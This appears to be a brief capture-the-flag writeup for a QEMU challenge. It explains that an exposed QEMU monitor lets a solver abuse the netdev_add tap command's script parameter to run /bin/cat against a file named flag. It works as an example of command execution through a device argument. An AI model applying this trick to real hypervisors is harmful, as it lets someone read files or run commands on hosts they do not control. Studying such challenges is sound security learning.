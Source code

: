 # writeup
It's just a newsest qemu run without -monitor.So you can use qemu-monitor to execve some commands.</br>
Once you enter into qemu monitor,you can use this to execve a command(The qemu process must run as root):</br>
netdev_add tap,id=net0,ifname=flag,script=/bin/cat</br>
